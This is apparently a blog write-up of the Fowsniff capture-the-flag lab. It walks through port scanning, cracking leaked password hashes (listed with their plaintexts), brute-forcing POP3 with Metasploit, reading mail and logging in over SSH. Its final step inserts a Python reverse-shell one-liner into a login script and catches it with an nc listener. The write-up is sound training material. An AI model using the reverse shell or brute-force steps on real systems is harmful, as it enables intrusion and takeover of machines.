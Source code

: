 ```yaml
---
title: "FOWSNIFF CTF CHALLENGE"
date: 2025-09-14 01:09:33 +0300
description: FowSniff CTF Challenge
image: /assets/images/cover.webp
categories: [WEB, Cryptography, Easy]
tags: [WEB, Cryptography, Easy, KenyaCyberlympics]
---
```


# Fowsniff CTF

**Task 1: Deploy the machine**

The first step was to deploy the machine and connect to their network using OpenVPN because I used VPN. You can choose to use the Attack box as well; it's easier if you find it hard to connect to VPN.

![image.png](/assets/images/image.png)

The next thing was to ping the machine’s IP address ‘10.10.213.180’. The IP addresses will vary depending on the machine deployed. I did not get any results, probably because the system and its firewall were blocking ICMP packets, or the machine was not up yet.

**Task 2: Using Nmap scan the machine. What ports are open?**

So I used Nmap to scan for open ports. The command used is: 

```bash
nmap -A -sV <IP Address>
```

The open ports found were: 22/tcp, 80/tcp, 110/tcp and 143/tcp for SSH, HTTP, POP3, and IMAP respectively.

![image.png](/assets/images/nmap-scan.png)

**Task 3: Using Google to find publicly available information about the IP address**

Using Google, I searched the IP address and found the website related to the IP address called *Fowsniff Corp.*

![image.png](/assets/images/fowsniff-website.png)

There is also a GitHub account called [https://github.com/berzerk0/Fowsniff](https://github.com/berzerk0/Fowsniff). This account has a file called `fowsniff.txt` which contains Fowsniff Corp password leaks.

[https://github.com/berzerk0/Fowsniff](https://github.com/berzerk0/Fowsniff)

![image.png](/assets/images/password-leak.png)

I decoded the passwords using password cracker tools called Hashkiller and CrackStation. Feel free to use any password cracker of your choice. Here are the results:

1. `mauer@fowsniff`: 8a28a94a588a95b80163709ab4313aa4 - mailcall
2. `mustikka@fowsniff`: ae1644dac5b77c0cf51e0d26ad6d7e56 - bilbo101
3. `tegel@fowsniff`: 1dc352435fecca338acfd4be10984009 - apple01
4. `baksteen@fowsniff`: 19f5af754c31f1e2651edde9250d69bb - skyler22
5. `seina@fowsniff`: 90dc16d47114aa13671c697fd506cf26 - scoobydoo2
6. `stone@fowsniff`: a92b8a29ef1183192e3d35187e0cfabd - 
7. `mursten@fowsniff`: 0e9588cb62f4b6f27e33d449e2ba0b3b - carp4ever
8. `parede@fowsniff`: 4d6e42f56e127803285a0a7649b5ab11 - orlando12
9. `sciana@fowsniff`: f7fd98d380735e859f8b2ffbbede5a7e - 07011972

**Task 4: Brute force POP3 login using Metasploit**

I first created two files named `users.txt` and `password.txt` using the nano text editor.

![image.png](/assets/images/users.txt.png)

![image.png](/assets/images/password.txt.png)

Since the instructions are to brute force POP3 login, I searched for a POP3 login utility and here we are going to use the 3rd option: `auxiliary/scanner/pop3/pop3_login`.

![image.png](/assets/images/pop3-search.png)

The next command should be `use 3`.

![image.png](/assets/images/use3-command.png)

Now, set our target machine as the remote host, `password.txt` as the PASS_FILE and `users.txt` as the USER_FILE. The commands are as follows:

1. `set rhosts <IP Address>`
2. `set USER_FILE users.txt`
3. `set PASS_FILE password.txt`

After setting these files, execute the `run` command.

![image.png](/assets/images/settings.png)

**Task 5: What is Seina’s password to the email server?** 

![image.png](/assets/images/run-command.png)

Seina’s password is `scoobydoo2`.

**Task 6: Login to POP3 mail server using Seina’s username and password and read the emails**

![image.png](/assets/images/nc-result.png)

Using `nc` and the host address and POP3 port 110, I logged in using the username `seina` and password `scoobydoo2`. We can see there are two messages: 1622 and 1280.

We can use the command `RETR <message>` to read the contents of the emails.

1. The first message:

    ![image.png](/assets/images/first-email.png)

2. The second message doesn't seem to have a lot of insight, but we see that some people might not have changed their email passwords as advised. 

    ![image.png](/assets/images/sec-email.png)

**Task 7: The temporary email password Seina was given**

SSH password: `S1ck3nBluff+secureshell`

**Task 8:  Who sent the email? Using the password from the previous task and the username, connect to the machine using SSH**

![image.png](/assets/images/ssh-login.png)

Using the email sender: `baksteen` and the password: `S1ck3nBluff+secureshell`, I logged into the machine.

**Task 9: What group does the user belong to? Are there files that can be run by that group?**

![image.png](/assets/images/user-id.png)

Using the command `id`, we get to know the user id and the group that the current user belongs to. `baksteen` belongs to the `users` group, and therefore doesn't have root privileges.

Using the command: 

```bash
find / -group users -type f 2>/dev/null
```

we search the whole system for file types only that belong to the group `users` and redirect any error messages to `/dev/null` so that they don't clutter the output.

![image.png](/assets/images/cube.sh-file.png)

We find an interesting file named `cube.sh` that can be edited by the group members in the `users` group. 

**Task 10: Include a reverse shell script in the file** 

The file in question is called `cube.sh`.

![image.png](/assets/images/script.png)

After adding the script:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
We save the file using CTRL + O and exit the text editor using CTRL + X. When someone logs in via SSH the cube.sh is executed automatically, creating a reverse shell and enabling us to access the machine remotely.

To create a reverse shell, we use the command 
```bash
nc -nlvp <port>.
```
Below, I chose the port 1234. 

we get a prompt meaning we successfully established a reverse shell
![image.png](/assets/images/nc-connect-as-root.png)
![image.png](/assets/images/nc-reverse-shell.png)
![image.png](/assets/images/flag.txt.fowsnif.png)

